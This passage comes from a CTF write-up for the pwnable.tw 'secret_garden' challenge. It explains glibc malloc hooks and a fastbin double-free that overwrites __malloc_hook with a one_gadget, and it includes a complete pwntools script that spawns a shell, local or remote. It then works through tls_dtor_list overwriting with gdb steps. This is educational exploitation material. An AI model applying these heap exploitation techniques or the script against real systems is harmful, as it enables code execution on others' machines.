    (*hook)(mem, RETURN_ADDRESS (0));
    return;
  }


And the same goes for `__malloc_hook`.

void*
__libc_malloc(size_t bytes)
{
  mstate ar_ptr;
  void *victim;

  void *(*hook) (size_t, const void *)
    = force_reg (__malloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0));


All the `*_hook` function pointers can be found by dumping our target libc.

➜  libc-database git:(master) ✗ less ./db/local-84d7ecac9d0c61c810c8e4215e4d456fbef667be.symbols | grep hook
__free_hook 00000000003c57a8
argp_program_version_hook 00000000003c8560
_dl_open_hook 00000000003c82e0
__malloc_hook 00000000003c3b10
__realloc_hook 00000000003c3b08
__malloc_initialize_hook 00000000003c57b0
__after_morecore_hook 00000000003c57a0
__memalign_hook 00000000003c3b00


At first, I wanted to overwrite `__free_hook` but this did not seem viable via a fastbin attack method because we need to use some byte before it as a fake, fastbin-sized chunk size in order for our `malloc()` to successfully return that pointer.
And if we look at what bytes are available for us to use, we see none.

gdb-peda$ x/20xg 0x7f07b600d7a8-0x80
0x7f07b600d728: 0x0000000000000000      0x0000000000000000
0x7f07b600d738: 0x0000000000000000      0x0000000000000000
0x7f07b600d748: 0x0000000000000000      0x0000000000000000
0x7f07b600d758: 0x0000000000000000      0x0000000000000000
0x7f07b600d768: 0x0000000000000000      0x0000000000000000
0x7f07b600d778: 0x0000000000000000      0x0000000000000000
0x7f07b600d788: 0x0000000000000000      0x0000000000000000
0x7f07b600d798: 0x0000000000000000      0x0000000000000000
0x7f07b600d7a8 <__free_hook>:   0x0000000000000000      0x0000000000000000
0x7f07b600d7b8: 0x0000000000000000      0x0000000000000000


However, `__malloc_hook` looked promising as we could request that `malloc()` return the fake chunk starting at `0x7f07b600bafd` which has `0x7f` in its sizefield, which fits with the fastbin index for fastchunks of size `0x70`.  

gdb-peda$ x/20xg 0x7f07b600bb10-0x80
0x7f07b600ba90: 0x0000000000000000      0x0000000000000000
0x7f07b600baa0: 0x0000000000000000      0x0000000000000000
0x7f07b600bab0: 0x0000000000000000      0x0000000000000000
0x7f07b600bac0: 0x0000000000000000      0x0000000000000000
0x7f07b600bad0: 0x0000000000000000      0x0000000000000000
0x7f07b600bae0: 0x0000000000000000      0x0000000000000000
0x7f07b600baf0: 0x00007f07b600a260      0x0000000000000000
0x7f07b600bb00 <__memalign_hook>:       0x00007f07b5ccd270      0x0000000000000000
0x7f07b600bb10 <__malloc_hook>: 0x0000000000000000      0x0000000000000000
0x7f07b600bb20: 0x0000000100000000      0x0000000000000000

gdb-peda$ x/20xg 0x7f07b600bb10-0x20+0xd
0x7f07b600bafd: 0x07b5ccd270000000      0x000000000000007f
0x7f07b600bb0d <__realloc_hook+5>:      0x0000000000000000      0x0000000000000000
0x7f07b600bb1d: 0x0100000000000000      0x0000000000000000


Using the same method detailed [here](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html) by my buddy Uafio, I was able to control RIP by corrupting `__malloc_hook` to point to my `one_shot` gadget, and adding another flower to call `malloc(0x28)`.

However, once I had control of RIP, I was sad to discover that none of the constraints for any of the `one_shot` gadgets could be satisfied. 
I tried stack pivoting too, but failed to find a way, given the undesirable state my registers and stack were in at the time I controlled RIP. 

So, after much frustration, I decided to move on and attempt to control RIP with another technique.

**But what I failed to realize until after I solved the challenge and read other writeups, was that I could have also triggered the `malloc()` after corrupting `__malloc_hook` by setting off a "fatal"  double free error!** 


gdb-peda$ bt
#0  __GI___libc_malloc (bytes=bytes@entry=0x24) at malloc.c:2906
#1  0x00007f56ec36dd8a in __strdup (s=0x7ffe86ea9d60 "/lib/x86_64-linux-gnu/libgcc_s.so.1") at strdup.c:42
#2  0x00007f56ec36960f in _dl_load_cache_lookup (name=name@entry=0x7f56ec113aa6 "libgcc_s.so.1") at dl-cache.c:311
#3  0x00007f56ec359f99 in _dl_map_object (loader=loader@entry=0x7f56ec5754c0, name=name@entry=0x7f56ec113aa6 "libgcc_s.so.1", 
    type=type@entry=0x2, trace_mode=trace_mode@entry=0x0, mode=mode@entry=0x90000001, nsid=<optimized out>) at dl-load.c:2342
#4  0x00007f56ec3663a7 in dl_open_worker (a=a@entry=0x7ffe86eaa450) at dl-open.c:237
#5  0x00007f56ec361394 in _dl_catch_error (objname=objname@entry=0x7ffe86eaa440, errstring=errstring@entry=0x7ffe86eaa448, 
    mallocedp=mallocedp@entry=0x7ffe86eaa43f, operate=operate@entry=0x7f56ec366300 <dl_open_worker>, args=args@entry=0x7ffe86eaa450)
    at dl-error.c:187
#6  0x00007f56ec365bd9 in _dl_open (file=0x7f56ec113aa6 "libgcc_s.so.1", mode=0x80000001, 
    caller_dlopen=0x7f56ec09cfd1 <__GI___backtrace+193>, nsid=0xfffffffffffffffe, argc=<optimized out>, argv=<optimized out>, 
    env=0x7ffe86eab188) at dl-open.c:660
#7  0x00007f56ec0ca9bd in do_dlopen (ptr=ptr@entry=0x7ffe86eaa670) at dl-libc.c:87
#8  0x00007f56ec361394 in _dl_catch_error (objname=0x7ffe86eaa660, errstring=0x7ffe86eaa668, mallocedp=0x7ffe86eaa65f, 
    operate=0x7f56ec0ca980 <do_dlopen>, args=0x7ffe86eaa670) at dl-error.c:187
#9  0x00007f56ec0caa74 in dlerror_run (args=0x7ffe86eaa670, operate=0x7f56ec0ca980 <do_dlopen>) at dl-libc.c:46
#10 __GI___libc_dlopen_mode (name=name@entry=0x7f56ec113aa6 "libgcc_s.so.1", mode=mode@entry=0x80000001) at dl-libc.c:163
#11 0x00007f56ec09cfd1 in init () at ../sysdeps/x86_64/backtrace.c:52
#12 __GI___backtrace (array=array@entry=0x7ffe86eaa6d0, size=size@entry=0x40) at ../sysdeps/x86_64/backtrace.c:105
#13 0x00007f56ebfa79f5 in backtrace_and_maps (do_abort=<optimized out>, do_abort@entry=0x2, written=<optimized out>, fd=fd@entry=0x3)
    at ../sysdeps/unix/sysv/linux/libc_fatal.c:47
#14 0x00007f56ebfff7e5 in __libc_message (do_abort=do_abort@entry=0x2, fmt=fmt@entry=0x7f56ec1182e0 "*** Error in `%s': %s: 0x%s ***\n")
    at ../sysdeps/posix/libc_fatal.c:172
#15 0x00007f56ec007e0a in malloc_printerr (ar_ptr=<optimized out>, ptr=<optimized out>, 
    str=0x7f56ec1183a8 "double free or corruption (fasttop)", action=0x3) at malloc.c:5004
#16 _int_free (av=<optimized out>, p=<optimized out>, have_lock=0x0) at malloc.c:3865
#17 0x00007f56ec00b98c in __GI___libc_free (mem=<optimized out>) at malloc.c:2966
#18 0x00005588fee13e79 in ?? ()
#19 0x00005588fee140d7 in ?? ()
#20 0x00007f56ebfa8830 in __libc_start_main (main=0x5588fee14048, argc=0x1, argv=0x7ffe86eab178, init=<optimized out>, fini=<optimized out>, 
    rtld_fini=<optimized out>, stack_end=0x7ffe86eab168) at ../csu/libc-start.c:291
#21 0x00005588fee13a49 in ?? ()


Crazy, right?? I didn't know that if you trigger a double free memory corruption error that the program thinks is “fatal", you’ll eventually call `malloc()` again before the program exits...

Anyway, calling `malloc()` this way allowed me to satisfy the conditions needed to make one of the `one_shot` gadgets work so I just used that.

My exploit which uses this technique to spawn a shell is as follows: 

#!/usr/bin/env python

from pwn import *
import sys

def addFlower(size,name,color):
    r.send("1")  
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.send(name) 
    r.recvuntil(":")
    r.send(color)
    r.recvuntil(":")

def delFlower(index, out=True ):
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(index))
    if out:
        r.recvuntil(":")

def cleanGarden(index):
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(index))
    r.recvuntil(":")

def printGarden():
    r.sendline("2")
    wasted = r.recvuntil("EEEEEEE\n")
    return r.recvuntil("Your choice :")
    
def exploit(r):
    libc = ELF("./libc_64.so.6")
    gets_offset = libc.symbols["gets"]
    
    r.recvuntil(":")
    
    ## ALLOCATE 2 FAST CHUNKS + 1 SMALL CHUNK + 1 FAST CHUNK   
    addFlower(0x28,"A"*0x28,"X"*23) # A 
    addFlower(0x28,"B"*0x28,"X"*23) # B 
    addFlower(0x80,"C"*0x80,"X"*23) # C # small chunk
    addFlower(0x28,"D"*0x28,"X"*23) # D
    
    ## FREE C->ptrName
    delFlower(2)
    
    ## FREE C
    cleanGarden(2)
    
    ## FREE D->ptrName
    delFlower(3)
    
    ## REALLOC
    addFlower(0x80,"EEEEEEE\n","X"*23) # E  
    
    libc_base = u64((printGarden()[:6]).ljust(8,'\0'))-0x3c3b78
    
    log.success("libc base found at: "+hex(libc_base))

    ## FASTBIN ATTACK ##
    addFlower(0x68,"F"*28,"X"*23) # F
    addFlower(0x68,"G"*28,"X"*23) # G
    addFlower(0x68,"H"*28,"X"*23) # H

    delFlower(6)
    delFlower(5)
    delFlower(4)
    delFlower(5)
    delFlower(6)
    
    # [HEAD]->F->G->H->G->F->NULL
    target = libc_base+0x3c3aed
    
    addFlower(0x68,"A"*0x10,"B"*23) 
    addFlower(0x68,p64(target),"B"*23) 
    addFlower(0x68,"A"*0x10,"B"*23) 
    addFlower(0x68,"A"*0x10,"B"*23) 
    
    one_gadget = libc_base+0xef6c4
    addFlower(0x68,"A"*19+p64(one_gadget)+"C"*(0x68-27),"C"*23) # corrupt __malloc_hook
   
    delFlower(6)
    #pause()
    delFlower(6,out=False)
     
    #pause() 
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":"./libc_64.so.6"})
        #r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)


# Alternate plan 2
The second idea I came up with to control RIP, was overwriting the `tls_dtor_list`.


The tls_dtor_list is a thread-local variable which contains a list of function pointers to be invoked during exit(). __call_tls_dtors walks through tls_dtor_list and invokes the function one by one!! Thus if we can overwrite tls_dtor_list with a heap address which contains system and system_arg in place of func and obj of dtor_list, system() could be invoked!!
 

Such an attack would look something like this:


We can view the source code for `__call_tls_dtors()` in `cxa_thread_atexit_impl.c:141-164` 

/* Call the destructors.  This is called either when a thread returns from the
   initial function or when the process exits via the exit function.  */
void
__call_tls_dtors (void)
{
  while (tls_dtor_list)
    {
      struct dtor_list *cur = tls_dtor_list;
      dtor_func func = cur->func;
#ifdef PTR_DEMANGLE
      PTR_DEMANGLE (func); <-- :( 
#endif

      tls_dtor_list = tls_dtor_list->next;
      func (cur->obj);

      /* Ensure that the MAP dereference happens before
     l_tls_dtor_count decrement.  That way, we protect this access from a
     potential DSO unload in _dl_close_worker, which happens when
     l_tls_dtor_count is 0.  See CONCURRENCY NOTES for more detail.  */
      atomic_fetch_add_release (&cur->map->l_tls_dtor_count, -1);
      free (cur);
    }
}


The struct definition for a `dtor_list` looks like the following. 


struct dtor_list
{
  dtor_func func;
  void *obj;
  struct link_map *map;
  struct dtor_list *next;
};


`tls_list_all` is actually not a symbol in libc (at least not acording to libc-database), so to find the offset that it exists from libc, we need to do some magic with the `FS` segment register.

To find the FS register address, we follow these steps.

**1) Pick a writeable section that is empty. For us, we can just pick the base address of the stack since it is filled with nulls.** 


0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]

gdb-peda$ telescope 0x00007ffffffde000
0000| 0x7ffffffde000 --> 0x0 
0008| 0x7ffffffde008 --> 0x0 
0016| 0x7ffffffde010 --> 0x0 
0024| 0x7ffffffde018 --> 0x0 
0032| 0x7ffffffde020 --> 0x0 
0040| 0x7ffffffde028 --> 0x0 
0048| 0x7ffffffde030 --> 0x0 
0056| 0x7ffffffde038 --> 0x0 


**2) Write the FS register address to section picked in step 1. We can do that by calling `arch_prctl(0x1003, &stack_base)`.**

The `0x1003` is because `#define ARCH_GET_FS 0x1003`.


gdb-peda$ call arch_prctl(0x1003, 0x00007ffffffde000)
$5 = 0x0

gdb-peda$ telescope 0x00007ffffffde000
0000| 0x7ffffffde000 --> 0x7ffff7fe9700 (0x00007ffff7fe9700) <-- FS register addr!!!
0008| 0x7ffffffde008 --> 0x0 
0016| 0x7ffffffde010 --> 0x0 
0024| 0x7ffffffde018 --> 0x0 
0032| 0x7ffffffde020 --> 0x0 
0040| 0x7ffffffde028 --> 0x0 
0048| 0x7ffffffde030 --> 0x0 
0056| 0x7ffffffde038 --> 0x0 


So, we've resolved the FS segment register to the address `0x7ffff7fe9700`!

**3) To examine the contents of the FS segment register address, We can dump data from there.**

gdb-peda$ telescope 0x7ffff7fe9700
0000| 0x7ffff7fe9700 (0x00007ffff7fe9700)
0008| 0x7ffff7fe9708 --> 0x7ffff7fe8010 --> 0x1 
0016| 0x7ffff7fe9710 --> 0x7ffff7fe9700 (0x00007ffff7fe9700)
0024| 0x7ffff7fe9718 --> 0x0 
0032| 0x7ffff7fe9720 --> 0x0 
0040| 0x7ffff7fe9728 --> 0x2575107f1251c300 <-- fs[28h] = stack cookie :3
0048| 0x7ffff7fe9730 --> 0x12d82d39167e3506 <-- fs[30h] = ptr encryption key 
0056| 0x7ffff7fe9738 --> 0x0 


Now that we've found the `FS` register address, we can use it to find the address of the `tls_dtor_list` pointer as follows.

**4) Set a breakpoint on `__call_tls_dtors`**
    
b *__call_tls_dtors


**5)**

    gdb-peda$ si
    [----------------------------------registers-----------------------------------]
    RAX: 0x13 
    RBX: 0x0 
    RCX: 0x7ffff7b046e0 (<__write_nocancel+7>:      cmp    rax,0xfffffffffffff001)
    RDX: 0x1 
    RSI: 0x7ffff7dd15f8 --> 0x7ffff7dd2c40 --> 0x0 
    RDI: 0x0 
    RBP: 0xffffffffffffffc0 
    RSP: 0x7fffffffde40 --> 0xa ('\n')
    RIP: 0x7ffff7a485cd (<__GI___call_tls_dtors+13>:        mov    rbx,QWORD PTR fs:[rbp+0x0])
    R8 : 0x7ffff7fe9700 (0x00007ffff7fe9700)
    R9 : 0x1999999999999999 
    R10: 0x0 
    R11: 0x246 
    R12: 0x1 
    R13: 0x7fffffffdfa0 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x7ffff7a485c1 <__GI___call_tls_dtors+1>:    push   rbx
       0x7ffff7a485c2 <__GI___call_tls_dtors+2>:    sub    rsp,0x8
       0x7ffff7a485c6 <__GI___call_tls_dtors+6>:    mov    rbp,QWORD PTR [rip+0x3887b3]        # 0x7ffff7dd0d80
    => 0x7ffff7a485cd <__GI___call_tls_dtors+13>:   mov    rbx,QWORD PTR fs:[rbp+0x0]  <--- rbx is loaded with &tls_dtor_list
       0x7ffff7a485d2 <__GI___call_tls_dtors+18>:   test   rbx,rbx
       0x7ffff7a485d5 <__GI___call_tls_dtors+21>:   je     0x7ffff7a4861e <__GI___call_tls_dtors+94>
       0x7ffff7a485d7 <__GI___call_tls_dtors+23>:   nop    WORD PTR [rax+rax*1+0x0]
       0x7ffff7a485e0 <__GI___call_tls_dtors+32>:   mov    rdx,QWORD PTR [rbx+0x18]
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffde40 --> 0xa ('\n')
    0008| 0x7fffffffde48 --> 0x0 
    0016| 0x7fffffffde50 --> 0x7ffff7dd15f8 --> 0x7ffff7dd2c40 --> 0x0 
    0024| 0x7fffffffde58 --> 0x7ffff7a47f27 (<__run_exit_handlers+23>:      mov    r13,QWORD PTR [rbp+0x0])
    0032| 0x7fffffffde60 --> 0x12 
    0040| 0x7fffffffde68 --> 0x7fffffffdea0 --> 0x555555550a35 ('5\nUUUU')
    0048| 0x7fffffffde70 --> 0x555555555408 --> 0xfffffcadfffffcf3 
    0056| 0x7fffffffde78 --> 0x5555555552a2 ("Invalid choice")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    0x00007ffff7a485cd      146       while (tls_dtor_list)
    
    gdb-peda$ p 0x7ffff7fe9700+0xffffffffffffffc0 <--- calculates fs:[rbp+0x0]
    $2 = 0x7ffff7fe96c0
  

So it looks like we've resolved `&tls_dtor_list` to `0x7ffff7fe96c0`!

So, basically we just need to overwrite `tls_dtor_list` with the address of an area in memory we control, and just place our `one_shot` gadget at the memory location, right? **WRONG!!**

***As it turns out, starting with glibc 2.23, linux developers got smart and started encrypting the `tls_dtor_list` pointer so that pwners couldn't abuse it as easily.*** 

If we take another look at the disassembly for `__call_tls_dtors` we can see that it does demangle the pointer in `*tls_dtor_list` before calling it.


0x00007f07b5c825d7 <+23>:    nop    WORD  PTR [rax+rax*1+0x0]
0x00007f07b5c825e0 <+32>:    mov    rdx,QWORD PTR [rbx+0x18]
0x00007f07b5c825e4 <+36>:    mov    rax,QWORD PTR [rbx]
0x00007f07b5c825e7 <+39>:    mov    rdi,QWORD PTR [rbx+0x8]
0x00007f07b5c825eb <+43>:    ror    rax,0x11               <---mangled ptr >> 11 times
0x00007f07b5c825ef <+47>:    xor    rax,QWORD PTR fs:0x30  <---mangled ptr is xor'd with pointer encryption key @ fs[30h] 
0x00007f07b5c825f8 <+56>:    mov    QWORD PTR fs:[rbp+0x0],rdx
0x00007f07b5c825fd <+61>:    call   rax


Beacuse of this, I had to leak the pointer encryption key in order to successfully gain RIP control through this method, but I couldn't find a way to leak the pointer encryption key without clobbering the stack cookie in local thread storage in the process, so I moved on to my third technique of overwriting the `_IO_list_all` pointer.  

Some good sources for learning more about `tls_dtor_list` exploitation:
[https://sourceware.org/bugzilla/show_bug.cgi?id=19018](https://sourceware.org/bugzilla/show_bug.cgi?id=19018)

[http://blog.frizn.fr/pctf-2015/pwn-550-plaiddb](http://blog.frizn.fr/pctf-2015/pwn-550-plaiddb)

[https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf](https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)

[https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)
